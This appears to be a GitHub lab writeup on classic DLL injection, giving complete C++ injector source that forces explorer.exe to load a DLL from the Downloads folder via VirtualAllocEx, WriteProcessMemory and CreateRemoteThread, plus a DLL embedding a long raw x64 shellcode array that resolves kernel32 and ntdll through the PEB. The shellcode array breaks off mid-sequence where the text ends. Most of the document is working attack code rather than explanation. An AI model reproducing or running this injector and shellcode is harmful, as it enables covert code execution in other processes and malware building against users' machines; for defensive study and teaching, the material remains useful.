

<h1 align="center">Classic DLL Injection</h1>
<p align="center">
  
</p>

## Overview
In this lab, we explore a DLL injection technique that targets a process (in this case, explorer.exe) to load a malicious DLL (panda.dll) from the Downloads folder. DLL injection is a method used to run arbitrary code within the address space of another process by forcing it to load a dynamic-link library (DLL).

## Steps
1. `Identify the Target Process:` `Toolhelp32` functions to enumerate running processes and identify the target process ID by its name.
2. `Allocate Memory in the Target Process:` `VirtualAllocEx` function to allocate memory in the target process's address space.
4. `Write Shellcode to the Allocated Memory:` `WriteProcessMemory` to Write the path of the `panda.dll` to be injected into this memory.
5. `Create a Remote Thread to Execute the Shellcode:` `CreateRemoteThread` Creates a remote thread in `explorer.exe` that executes `LoadLibraryA`, loading the `panda.dll` into the `explorer.exe` process's memory space.

## Walkthrough
These headers are necessary to use the Windows API functions for process enumeration, memory manipulation, and thread creation.
```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
```
Using `OpenProcess` to obtain a handle to the target process (explorer.exe) with all access rights (PROCESS_ALL_ACCESS).
```cpp
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processID);
    if (hProcess == NULL) {
        std::cerr << "Failed to open process. Error: " << GetLastError() << std::endl;
        return false;
    }
```
`VirtualAllocEx` allocates memory within the virtual address space of the target process for storing the path of the `panda.dll`. The allocated memory is marked as `PAGE_READWRITE` to allow writing of the DLL path string.
```cpp
 LPVOID pRemoteMemory = VirtualAllocEx(hProcess, NULL, strlen(dllPath) + 1, MEM_COMMIT, PAGE_READWRITE);
    if (pRemoteMemory == NULL) {
        std::cerr << "Failed to allocate memory in target process. Error: " << GetLastError() << std::endl;
        CloseHandle(hProcess);
        return false;
    }
```
`WriteProcessMemory` writes the DLL path into the allocated memory space in the target process.
```cpp
  if (!WriteProcessMemory(hProcess, pRemoteMemory, dllPath, strlen(dllPath) + 1, NULL)) {
        std::cerr << "Failed to write to target process memory. Error: " << GetLastError() << std::endl;
        VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return false;
    }
```
`GetProcAddress` to obtain the address of the `LoadLibraryA` function in `kernel32.dll`. `LoadLibraryA` is used to load the specified DLL into the target process.
```cpp
 LPVOID pLoadLibrary = (LPVOID)GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryA");
    if (pLoadLibrary == NULL) {
        std::cerr << "Failed to get address of LoadLibraryA. Error: " << GetLastError() << std::endl;
        VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return false;
    }
```
`CreateRemoteThread` creates a new thread in the target process that starts at the address of `LoadLibraryA`, with the `panda.dll` path as an argument. This effectively loads the our DLL into the target process.
```cpp
   HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pLoadLibrary, pRemoteMemory, 0, NULL);
    if (hThread == NULL) {
        std::cerr << "Failed to create remote thread. Error: " << GetLastError() << std::endl;
        VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return false;
    }
```
This function retrieves the process ID (PID) of a running process based on its name in our case `explorer.exe`.
```cpp
DWORD GetProcessIDByName(const std::wstring& processName) {
    DWORD processID = 0;
    PROCESSENTRY32W pe32;  // Use the Unicode version of PROCESSENTRY32
    pe32.dwSize = sizeof(PROCESSENTRY32W);

    // Take a snapshot of all processes in the system
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot == INVALID_HANDLE_VALUE) {
        std::wcerr << L"CreateToolhelp32Snapshot failed (" << GetLastError() << ").\n";
        return 0;
    }

    // Retrieve information about the first process
    if (Process32FirstW(hSnapshot, &pe32)) {
        do {
            // Compare the process name
            if (processName == pe32.szExeFile) {
                processID = pe32.th32ProcessID;  // Found the process ID
                break;
            }
        } while (Process32NextW(hSnapshot, &pe32));  // Continue with the next process
    }
    else {
        std::wcerr << L"Process32First failed (" << GetLastError() << ").\n";
    }

    CloseHandle(hSnapshot);  // Clean up the snapshot object
    return processID;
}
```
Because the `panda.dll` is in downloads folder so this function retrieves the path to the current user's Downloads folder.
```cpp
std::string GetDownloadsFolderPath() {
    PWSTR downloadsPath = NULL;
    HRESULT hr = SHGetKnownFolderPath(FOLDERID_Downloads, 0, NULL, &downloadsPath);
    if (SUCCEEDED(hr)) {
        std::wstring ws(downloadsPath);
        std::string downloadsFolder(ws.begin(), ws.end());
        CoTaskMemFree(downloadsPath);
        return downloadsFolder;
    }
    else {
        std::cerr << "Failed to get Downloads folder path. Error: " << hr << std::endl;
        return "";
    }
}
```
## Full Code
### Loader/Injector Code
```cpp
#include <windows.h> 
#include <iostream>
#include <tlhelp32.h>
#include <ShlObj.h>

bool InjectDLL(DWORD processID, const char* dllPath) {
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processID);
    if (hProcess == NULL) {
        std::cerr << "Failed to open process. Error: " << GetLastError() << std::endl;
        return false;
    }

    LPVOID pRemoteMemory = VirtualAllocEx(hProcess, NULL, strlen(dllPath) + 1, MEM_COMMIT, PAGE_READWRITE);
    if (pRemoteMemory == NULL) {
        std::cerr << "Failed to allocate memory in target process. Error: " << GetLastError() << std::endl;
        CloseHandle(hProcess);
        return false;
    }

    if (!WriteProcessMemory(hProcess, pRemoteMemory, dllPath, strlen(dllPath) + 1, NULL)) {
        std::cerr << "Failed to write to target process memory. Error: " << GetLastError() << std::endl;
        VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return false;
    }

    LPVOID pLoadLibrary = (LPVOID)GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryA");
    if (pLoadLibrary == NULL) {
        std::cerr << "Failed to get address of LoadLibraryA. Error: " << GetLastError() << std::endl;
        VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return false;
    }

    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pLoadLibrary, pRemoteMemory, 0, NULL);
    if (hThread == NULL) {
        std::cerr << "Failed to create remote thread. Error: " << GetLastError() << std::endl;
        VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return false;
    }

    WaitForSingleObject(hThread, INFINITE);

    VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
    CloseHandle(hThread);
    CloseHandle(hProcess);

    std::cout << "DLL injected successfully." << std::endl;
    return true;
}

DWORD GetProcessIDByName(const std::wstring& processName) {
    DWORD processID = 0;
    PROCESSENTRY32W pe32;  // Use the Unicode version of PROCESSENTRY32
    pe32.dwSize = sizeof(PROCESSENTRY32W);

    // Take a snapshot of all processes in the system
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot == INVALID_HANDLE_VALUE) {
        std::wcerr << L"CreateToolhelp32Snapshot failed (" << GetLastError() << ").\n";
        return 0;
    }

    // Retrieve information about the first process
    if (Process32FirstW(hSnapshot, &pe32)) {
        do {
            // Compare the process name
            if (processName == pe32.szExeFile) {
                processID = pe32.th32ProcessID;  // Found the process ID
                break;
            }
        } while (Process32NextW(hSnapshot, &pe32));  // Continue with the next process
    }
    else {
        std::wcerr << L"Process32First failed (" << GetLastError() << ").\n";
    }

    CloseHandle(hSnapshot);  // Clean up the snapshot object
    return processID;
}

std::string GetDownloadsFolderPath() {
    PWSTR downloadsPath = NULL;
    HRESULT hr = SHGetKnownFolderPath(FOLDERID_Downloads, 0, NULL, &downloadsPath);
    if (SUCCEEDED(hr)) {
        std::wstring ws(downloadsPath);
        std::string downloadsFolder(ws.begin(), ws.end());
        CoTaskMemFree(downloadsPath);
        return downloadsFolder;
    }
    else {
        std::cerr << "Failed to get Downloads folder path. Error: " << hr << std::endl;
        return "";
    }
}

int main() {
    std::wstring processName = L"explorer.exe";  // Name of the process to search for
    DWORD pid = GetProcessIDByName(processName);

    std::string downloadsFolderPath = GetDownloadsFolderPath();
    if (downloadsFolderPath.empty()) {
        std::cerr << "Could not retrieve the Downloads folder path." << std::endl;
        return 1;
    }

    std::string dllPath = downloadsFolderPath + "\\panda.dll";

    if (InjectDLL(pid, dllPath.c_str())) {
        std::cout << "Injection successful!" << std::endl;
    }
    else {
        std::cout << "Injection failed." << std::endl;
    }

    return 0;
}
```
### DLL Code
```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

extern __declspec(dllexport) int Go(void);
int Go(void) {
// Hello from Offensive Panda
		unsigned char sll[] = {0x40, 0x55, 0x57, 0x48, 0x81, 0xEC, 0xB8, 0x03,
	0x00, 0x00, 0x48, 0x8D, 0x6C, 0x24, 0x60, 0x65, 0x48, 0x8B, 0x04, 0x25,
	0x60, 0x00, 0x00, 0x00, 0x48, 0x89, 0x45, 0x00, 0x48, 0x8B, 0x45, 0x00,
	0x48, 0x8B, 0x40, 0x18, 0x48, 0x89, 0x45, 0x08, 0x48, 0x8B, 0x45, 0x08,
	0xC6, 0x40, 0x48, 0x00, 0x48, 0x8B, 0x45, 0x00, 0x48, 0x8B, 0x40, 0x18,
	0x48, 0x83, 0xC0, 0x20, 0x48, 0x89, 0x85, 0x30, 0x01, 0x00, 0x00, 0x48,
	0x8B, 0x85, 0x30, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x00, 0x48, 0x89, 0x85,
	0x38, 0x01, 0x00, 0x00, 0x48, 0xB8, 0x6B, 0x00, 0x65, 0x00, 0x72, 0x00,
	0x6E, 0x00, 0x48, 0x89, 0x45, 0x38, 0x48, 0xB8, 0x65, 0x00, 0x6C, 0x00,
	0x33, 0x00, 0x32, 0x00, 0x48, 0x89, 0x45, 0x40, 0x48, 0xB8, 0x2E, 0x00,
	0x64, 0x00, 0x6C, 0x00, 0x6C, 0x00, 0x48, 0x89, 0x45, 0x48, 0x48, 0xC7,
	0x45, 0x50, 0x00, 0x00, 0x00, 0x00, 0x48, 0xC7, 0x85, 0x50, 0x01, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x30, 0x01, 0x00, 0x00,
	0x48, 0x8B, 0x00, 0x48, 0x89, 0x85, 0x38, 0x01, 0x00, 0x00, 0x48, 0x8B,
	0x85, 0x38, 0x01, 0x00, 0x00, 0x48, 0x83, 0xE8, 0x10, 0x48, 0x89, 0x85,
	0x58, 0x01, 0x00, 0x00, 0xC7, 0x85, 0x60, 0x01, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x48, 0x8B, 0x85, 0x58, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x40,
	0x60, 0x48, 0x89, 0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x8D, 0x45, 0x38,
	0x48, 0x89, 0x85, 0x40, 0x01, 0x00, 0x00, 0xC7, 0x85, 0x60, 0x01, 0x00,
	0x00, 0x01, 0x00, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00,
	0x0F, 0xB7, 0x00, 0x85, 0xC0, 0x75, 0x0F, 0xC7, 0x85, 0x60, 0x01, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0xE9, 0x2E, 0x01, 0x00, 0x00, 0x48, 0x8B,
	0x85, 0x48, 0x01, 0x00, 0x00, 0x0F, 0xB6, 0x00, 0x88, 0x85, 0x64, 0x01,
	0x00, 0x00, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00,
	0x3D, 0xFF, 0x00, 0x00, 0x00, 0x7E, 0x13, 0x48, 0x8B, 0x85, 0x48, 0x01,
	0x00, 0x00, 0x0F, 0xB7, 0x00, 0x66, 0x89, 0x85, 0x68, 0x01, 0x00, 0x00,
	0xEB, 0x46, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00, 0x83, 0xF8, 0x41,
	0x7C, 0x1E, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00, 0x83, 0xF8, 0x5A,
	0x7F, 0x12, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00, 0x83, 0xC0, 0x20,
	0x88, 0x85, 0x65, 0x01, 0x00, 0x00, 0xEB, 0x0D, 0x0F, 0xB6, 0x85, 0x64,
	0x01, 0x00, 0x00, 0x88, 0x85, 0x65, 0x01, 0x00, 0x00, 0x66, 0x0F, 0xBE,
	0x85, 0x65, 0x01, 0x00, 0x00, 0x66, 0x89, 0x85, 0x68, 0x01, 0x00, 0x00,
	0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00, 0x0F, 0xB6, 0x00, 0x88, 0x85,
	0x64, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00, 0x0F,
	0xB7, 0x00, 0x3D, 0xFF, 0x00, 0x00, 0x00, 0x7E, 0x13, 0x48, 0x8B, 0x85,
	0x40, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00, 0x66, 0x89, 0x85, 0x6C, 0x01,
	0x00, 0x00, 0xEB, 0x46, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00, 0x83,
	0xF8, 0x41, 0x7C, 0x1E, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00, 0x83,
	0xF8, 0x5A, 0x7F, 0x12, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00, 0x83,
	0xC0, 0x20, 0x88, 0x85, 0x65, 0x01, 0x00, 0x00, 0xEB, 0x0D, 0x0F, 0xB6,
	0x85, 0x64, 0x01, 0x00, 0x00, 0x88, 0x85, 0x65, 0x01, 0x00, 0x00, 0x66,
	0x0F, 0xBE, 0x85, 0x65, 0x01, 0x00, 0x00, 0x66, 0x89, 0x85, 0x6C, 0x01,
	0x00, 0x00, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x83, 0xC0,
	0x02, 0x48, 0x89, 0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x40,
	0x01, 0x00, 0x00, 0x48, 0x83, 0xC0, 0x02, 0x48, 0x89, 0x85, 0x40, 0x01,
	0x00, 0x00, 0x0F, 0xB7, 0x85, 0x68, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x8D,
	0x6C, 0x01, 0x00, 0x00, 0x3B, 0xC1, 0x0F, 0x84, 0xB5, 0xFE, 0xFF, 0xFF,
	0x83, 0xBD, 0x60, 0x01, 0x00, 0x00, 0x00, 0x0F, 0x84, 0x2E, 0x01, 0x00,
	0x00, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x83, 0xE8, 0x02,
	0x48, 0x89, 0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x40, 0x01,
	0x00, 0x00, 0x48, 0x83, 0xE8, 0x02, 0x48, 0x89, 0x85, 0x40, 0x01, 0x00,
	0x00, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x0F, 0xB6, 0x00, 0x88,
	0x85, 0x64, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00,
	0x0F, 0xB7, 0x00, 0x3D, 0xFF, 0x00, 0x00, 0x00, 0x7E, 0x13, 0x48, 0x8B,
	0x85, 0x48, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00, 0x66, 0x89, 0x85, 0x68,
	0x01, 0x00, 0x00, 0xEB, 0x46, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00,
	0x83, 0xF8, 0x41, 0x7C, 0x1E, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00,
	0x83, 0xF8, 0x5A, 0x7F, 0x12, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00,
	0x83, 0xC0, 0x20, 0x88, 0x85, 0x65, 0x01, 0x00, 0x00, 0xEB, 0x0D, 0x0F,
	0xB6, 0x85, 0x64, 0x01, 0x00, 0x00, 0x88, 0x85, 0x65, 0x01, 0x00, 0x00,
	0x66, 0x0F, 0xBE, 0x85, 0x65, 0x01, 0x00, 0x00, 0x66, 0x89, 0x85, 0x68,
	0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00, 0x0F, 0xB6,
	0x00, 0x88, 0x85, 0x64, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x40, 0x01,
	0x00, 0x00, 0x0F, 0xB7, 0x00, 0x3D, 0xFF, 0x00, 0x00, 0x00, 0x7E, 0x13,
	0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00, 0x66, 0x89,
	0x85, 0x6C, 0x01, 0x00, 0x00, 0xEB, 0x46, 0x0F, 0xBE, 0x85, 0x64, 0x01,
	0x00, 0x00, 0x83, 0xF8, 0x41, 0x7C, 0x1E, 0x0F, 0xBE, 0x85, 0x64, 0x01,
	0x00, 0x00, 0x83, 0xF8, 0x5A, 0x7F, 0x12, 0x0F, 0xBE, 0x85, 0x64, 0x01,
	0x00, 0x00, 0x83, 0xC0, 0x20, 0x88, 0x85, 0x65, 0x01, 0x00, 0x00, 0xEB,
	0x0D, 0x0F, 0xB6, 0x85, 0x64, 0x01, 0x00, 0x00, 0x88, 0x85, 0x65, 0x01,
	0x00, 0x00, 0x66, 0x0F, 0xBE, 0x85, 0x65, 0x01, 0x00, 0x00, 0x66, 0x89,
	0x85, 0x6C, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x85, 0x68, 0x01, 0x00, 0x00,
	0x0F, 0xB7, 0x8D, 0x6C, 0x01, 0x00, 0x00, 0x2B, 0xC1, 0x89, 0x85, 0x60,
	0x01, 0x00, 0x00, 0x83, 0xBD, 0x60, 0x01, 0x00, 0x00, 0x00, 0x75, 0x10,
	0x48, 0x8B, 0x85, 0x58, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85, 0x50, 0x01,
	0x00, 0x00, 0xEB, 0x25, 0x48, 0x8B, 0x85, 0x38, 0x01, 0x00, 0x00, 0x48,
	0x8B, 0x00, 0x48, 0x89, 0x85, 0x38, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85,
	0x30, 0x01, 0x00, 0x00, 0x48, 0x39, 0x85, 0x38, 0x01, 0x00, 0x00, 0x0F,
	0x85, 0xF9, 0xFC, 0xFF, 0xFF, 0x48, 0x8B, 0x85, 0x50, 0x01, 0x00, 0x00,
	0x48, 0x89, 0x85, 0x70, 0x01, 0x00, 0x00, 0x48, 0xB8, 0x6E, 0x00, 0x74,
	0x00, 0x64, 0x00, 0x6C, 0x00, 0x48, 0x89, 0x45, 0x38, 0x48, 0xB8, 0x6C,
	0x00, 0x2E, 0x00, 0x64, 0x00, 0x6C, 0x00, 0x48, 0x89, 0x45, 0x40, 0x48,
	0xC7, 0x45, 0x48, 0x6C, 0x00, 0x00, 0x00, 0x48, 0xC7, 0x45, 0x50, 0x00,
	0x00, 0x00, 0x00, 0x48, 0xC7, 0x85, 0x78, 0x01, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x48, 0x8B, 0x85, 0x30, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x00,
	0x48, 0x89, 0x85, 0x38, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x38, 0x01,
	0x00, 0x00, 0x48, 0x83, 0xE8, 0x10, 0x48, 0x89, 0x85, 0x80, 0x01, 0x00,
	0x00, 0xC7, 0x85, 0x88, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48,
	0x8B, 0x85, 0x80, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x40, 0x60, 0x48, 0x89,
	0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x8D, 0x45, 0x38, 0x48, 0x89, 0x85,
	0x40, 0x01, 0x00, 0x00, 0xC7, 0x85, 0x88, 0x01, 0x00, 0x00, 0x01, 0x00,
	0x00, 0x00, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00,
	0x85, 0xC0, 0x75, 0x0F, 0xC7, 0x85, 0x88, 0x01, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0xE9, 0x2E, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x48, 0x01,
	0x00, 0x00, 0x0F, 0xB6, 0x00, 0x88, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x48,
	0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00, 0x3D, 0xFF, 0x00,
	0x00, 0x00, 0x7E, 0x13, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x0F,
	0xB7, 0x00, 0x66, 0x89, 0x85, 0x90, 0x01, 0x00, 0x00, 0xEB, 0x46, 0x0F,
	0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83, 0xF8, 0x41, 0x7C, 0x1E, 0x0F,
	0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83, 0xF8, 0x5A, 0x7F, 0x12, 0x0F,
	0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83, 0xC0, 0x20, 0x88, 0x85, 0x8D,
	0x01, 0x00, 0x00, 0xEB, 0x0D, 0x0F, 0xB6, 0x85, 0x8C, 0x01, 0x00, 0x00,
	0x88, 0x85, 0x8D, 0x01, 0x00, 0x00, 0x66, 0x0F, 0xBE, 0x85, 0x8D, 0x01,
	0x00, 0x00, 0x66, 0x89, 0x85, 0x90, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85,
	0x40, 0x01, 0x00, 0x00, 0x0F, 0xB6, 0x00, 0x88, 0x85, 0x8C, 0x01, 0x00,
	0x00, 0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00, 0x3D,
	0xFF, 0x00, 0x00, 0x00, 0x7E, 0x13, 0x48, 0x8B, 0x85, 0x40, 0x01, 0x00,
	0x00, 0x0F, 0xB7, 0x00, 0x66, 0x89, 0x85, 0x94, 0x01, 0x00, 0x00, 0xEB,
	0x46, 0x0F, 0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83, 0xF8, 0x41, 0x7C,
	0x1E, 0x0F, 0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83, 0xF8, 0x5A, 0x7F,
	0x12, 0x0F, 0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83, 0xC0, 0x20, 0x88,
	0x85, 0x8D, 0x01, 0x00, 0x00, 0xEB, 0x0D, 0x0F, 0xB6, 0x85, 0x8C, 0x01,
	0x00, 0x00, 0x88, 0x85, 0x8D, 0x01, 0x00, 0x00, 0x66, 0x0F, 0xBE, 0x85,
	0x8D, 0x01, 0x00, 0x00, 0x66, 0x89, 0x85, 0x94, 0x01, 0x00, 0x00, 0x48,
	0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x83, 0xC0, 0x02, 0x48, 0x89,
	0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00,
	0x48, 0x83, 0xC0, 0x02, 0x48, 0x89, 0x85, 0x40, 0x01, 0x00, 0x00, 0x0F,
	0xB7, 0x85, 0x90, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x8D, 0x94, 0x01, 0x00,
	0x00, 0x3B, 0xC1, 0x0F, 0x84, 0xB5, 0xFE, 0xFF, 0xFF, 0x83, 0xBD, 0x88,
	0x01, 0x00, 0x00, 0x00, 0x0F, 0x84, 0x2E, 0x01, 0x00, 0x00, 0x48, 0x8B,
	0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x83, 0xE8, 0x02, 0x48, 0x89, 0x85,
	0x48, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00, 0x48,
	0x83, 0xE8, 0x02, 0x48, 0x89, 0x85, 0x40, 0x01, 0x00, 0x00, 0x48, 0x8B,
	0x85, 0x48, 0x01, 0x00, 0x00, 0x0F, 0xB6, 0x00, 0x88, 0x85, 0x8C, 0x01,
	0x00, 0x00, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00,
	0x3D, 0xFF, 0x00, 0x00, 0x00, 0x7E, 0x13, 0x48, 0x8B, 0x85, 0x48, 0x01,
	0x00, 0x00, 0x0F, 0xB7, 0x00, 0x66, 0x89, 0x85, 0x90, 0x01, 0x00, 0x00,
	0xEB, 0x46, 0x0F, 0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83, 0xF8, 0x41,
	0x7C, 0x1E, 0x0F, 0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83, 0xF8, 0x5A,
	0x7F, 0x12, 0x0F, 0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83, 0xC0, 0x20,
	0x88, 0x85, 0x8D, 0x01, 0x00, 0x00, 0xEB, 0x0D, 0x0F, 0xB6, 0x85, 0x8C,
	0x01, 0x00, 0x00, 0x88, 0x85, 0x8D, 0x01, 0x00, 0x00, 0x66, 0x0F, 0xBE,
	0x85, 0x8D, 0x01, 0x00, 0x00, 0x66, 0x89, 0x85, 0x90, 0x01, 0x00, 0x00,
	0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00, 0x0F, 0xB6, 0x00, 0x88, 0x85,
	0x8C, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00, 0x0F,
	0xB7, 0x00, 0x3D, 0xFF, 0x00, 0x00, 0x00, 0x7E, 0x13, 0x48, 0x8B, 0x85,
	0x40, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00, 0x66, 0x89, 0x85, 0x94, 0x01,
	0x00, 0x00, 0xEB, 0x46, 0x0F, 0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83,
	0xF8, 0x41, 0x7C, 0x1E, 0x0F, 0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83,
	0xF8, 0x5A, 0x7F, 0x12, 0x0F, 0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83,
	0xC0, 0x20, 0x88, 0x85, 0x8D, 0x01, 0x00, 0x00, 0xEB, 0x0D, 0x0F, 0xB6,
	0x85, 0x8C, 0x01, 0x00, 0x00, 0x88, 0x85, 0x8D, 0x01, 0x00, 0x00, 0x66,
	0x0F, 0xBE, 0x85, 0x8D, 0x01, 0x00, 0x00, 0x66, 0x89, 0x85, 0x94, 0x01,
	0x00, 0x00, 0x0F, 0xB7, 0x85, 0x90, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x8D,
	0x94, 0x01, 0x00, 0x00, 0x2B, 0xC1, 0x89, 0x85, 0x88, 0x01, 0x00, 0x00,
	0x83, 0xBD, 0x88, 0x01, 0x00, 0x00, 0x00, 0x75, 0x10, 0x48, 0x8B, 0x85,
